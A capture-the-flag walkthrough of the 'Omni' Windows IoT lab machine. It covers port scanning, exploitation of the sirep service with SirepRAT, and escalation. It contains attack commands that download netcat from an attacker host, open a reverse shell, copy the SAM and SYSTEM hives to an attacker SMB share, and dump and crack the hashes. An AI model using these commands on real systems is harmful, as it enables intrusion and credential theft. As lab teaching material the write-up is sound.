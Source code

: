 # Omni 

## Enumeration

### Port enumeration initial

`sudo nmap --min-rate=3000 -sS -v -p- -n -oN nmap.init $target`

```bash
# Nmap 7.94 scan initiated Wed Sep  6 09:16:12 2023 as: nmap --min-rate=3000 -sS -v -p- -n -oN nmap.init $target
Nmap scan report for $target
Host is up (6.8s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
5985/tcp  open  wsman
8080/tcp  open  http-proxy
29817/tcp open  unknown
29819/tcp open  unknown
29820/tcp open  unknown
```

### Enumeration port versions

```bash
# Nmap 7.94 scan initiated Wed Sep  6 09:21:31 2023 as: nmap --min-rate=3000 -sVC -v -p135,5985,8080,29817,29819,29820 -n -oN nmap.version $target
Nmap scan report for $target
Host is up (0.17s latency).

PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.94%I=7%D=9/6%Time=64F87CE2%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 09:22:51 2023 -- 1 IP address (1 host up) scanned in 80.57 seconds
```

## Enumeration of http service

Visit the site http://$target:8080 and open the next window:

![Autentication Basic](images/7fd28afb7112ce4250aacd7d5dde7adea4586f6a8a7f9e75bfbd16308b13f089.png)  

This is a basic authentication, and it will become important later.


## Enumeration of rpc

I tried to enumerate rpcclient with a null session, but i didn't find any.

`rpcclient -U "" ip -N`


## Enumeration port 29819

Investigating this protocol is related to **Windows Device Portal** and the protocol's name is **sirep**. 


# Explotation

Download the next tool:

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT
```

I did a proof of concept to see if i have reading or writing capability.


![picture 1](images/1d6810512bd5ceb283b0dfb62d6cd0f20efce979c09c52584c71a4f952070c57.png)  


## Privilege escalation 

I trying to upload netcat to the server using this command.

```bash
python SirepRAT.py $target LaunchCommandWithOutput --return_output --cmd "powershell" --args "-c iwr -uri http://$atack_machine:8000/nc.exe -OutFile C:\Windows\System32\spool\drivers\color\nc.exe"

```

![picture 2](images/58bc434010039f84ebb780f04875020ea6216368fb211e9a56aebbd408811a16.png)  


While I opened a port to receive the shell, in the server i invoked netcat.


```bash
python SirepRAT.py $target LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\Windows\System32\spool\drivers\color\nc.exe -e cmd $atack_machine 1234"
```
![picture 3](images/10db5c409b765a2f580af3eeb9becee42ce6d247ac1a7b5eff9b9e42f4ff05a2.png)  



Save the registry keys SAM and SYSTEM

`
reg save HKLM\SAM sam1
`
`
reg save HKLM\SYSTEM system1
`
![Alt text](image.png)



Send the files through SMB

```bash
copy sam1 \\$atack_machine\smbFolder\sam1
copy system1 \\$atack_machine\smbFolder\system1
```

![picture 4](images/7ee865697c88bad022c2805b3172171cddcb56aa02ea20251b6cb1910210b716.png)  


And I get the SAM hashes with the tool *scretsdump.py* 

`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py  -system system1 -sam sam1 LOCAL`

![Alt text](image-1.png)

I filter the hash file and get the nt hash.

![Alt text](image-2.png)

Then use crackstation

![Alt text](image-3.png)


And reutilize credentials in the web portal.

![Alt text](image-4.png)




### Privilege escalation 

I explored the portal, and the portal has the capability to execute commands.

![Alt text](image-5.png)


Execute a new revshell.


![picture 5](images/bd9e8c6cdb176195078d8fa40a7a129d5e819317bf054ec6a541da23d7cc0c0d.png)  


![Alt text](image-6.png)


# User flag

Search the flag

![picture 7](images/3dd61b78d9ec55da49c6c09f2cadd00ea552550cdeebcfb87f432d20afd150cb.png)  

Show the flag.

It seems a credential store in a file.

![Alt text](image-8.png)


The open with the powershell's tools Import-cliXml:

`(Import-cliXml -Path user.txt).GetNetworkCredential().password`

![picture 6](images/c27d811e74ed72c31cce87cbd86a6f200f5878ea25de100454f8c24b93cf4727.png)  


# Root


And there are another strange file in the same path it is *iot-admin.xml*.

I use the same tool.

`(Import-cliXml -Path iot-admin.xml).GetNetworkCredential().password`

![Alt text](image-9.png)

And reutilize credentials in the web portal.

![Alt text](image-10.png)


![Alt text](image-12.png)

![Alt text](image-13.png)

And show the flag.

![Alt text](image-14.png)


Using the same technique previously employed.

`(Import-cliXml -Path root.txt).GetNetworkCredential().password`

![Alt text](image-15.png)


